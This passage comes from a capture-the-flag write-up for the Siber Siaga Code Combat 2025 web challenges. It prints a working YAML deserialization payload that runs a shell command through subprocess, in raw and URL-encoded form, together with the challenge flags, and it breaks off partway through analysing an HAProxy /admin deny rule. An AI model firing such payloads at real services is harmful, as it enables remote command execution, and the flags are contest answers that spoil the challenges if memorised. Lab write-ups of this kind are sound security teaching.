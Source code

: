 **Final Payload:**
```yaml
yaml_content=!!python/object/new:subprocess.getoutput ["cat /f*.txt"]
```
URL encoded: `%21%21python%2Fobject%2Fnew%3Asubprocess.getoutput%20%5B%22cat%20%2Ff%2A.txt%22%5D`

![Flag Result](https://github.com/cofastic/repo/blob/main/2025/Siber%20Siaga%20Code%20Combat%202025/img/bulkblue1.png)

**FLAG:** `SIBER25{G3u33s_W4_N44dB3tT33r_S3cuR30394578}`

---

### Bulk Import Blues

![Bulk Import Blues](https://github.com/cofastic/repo/blob/main/2025/Siber%20Siaga%20Code%20Combat%202025/img/bulkimport.png)

The website accepts YAML data. Because it uses `yaml.load` unsafely, we can inject Python objects with `!!python/object/apply`.

We use a payload to explore the filesystem and find the flag:

![Filesystem Exploration](https://github.com/cofastic/repo/blob/main/2025/Siber%20Siaga%20Code%20Combat%202025/img/bulkimport1.png)

The website accepts YAML data, so we can inject Python objects using `!!python/object/apply`:

![Flag Discovery](https://github.com/cofastic/repo/blob/main/2025/Siber%20Siaga%20Code%20Combat%202025/img/bulkimport2.png)

**Flag:** `SIBER25{Y8mL_Alnt_m4rkUP_l4ngu4g3!!!}`

---

### Private Party

![Private Party Challenge](https://github.com/cofastic/repo/blob/main/2025/Siber%20Siaga%20Code%20Combat%202025/img/party.png)

The "Private Party" challenge involves a Flask web application protected by an HAProxy reverse proxy. The goal is to access a user dashboard to retrieve a flag.

Analysis of the source code reveals that dashboard access is restricted to users who have been created through a special `/admin` endpoint. However, the HAProxy configuration explicitly denies all requests to paths beginning with `/admin`.

#### 1. Reconnaissance and Analysis

**Architecture (docker-compose.yml & haproxy.cfg)**

The docker-compose.yml file shows two services: web (the Flask app) and haproxy (the reverse proxy). The proxy listens on port 8001 and forwards traffic to the Flask app on port 5000.

The critical piece of information is in haproxy.cfg:
```
frontend http
    bind *:8001
    default_backend web
    ...
    acl is_admin_path path_beg,url_dec -i /admin
    http-request deny if is_admin_path
```
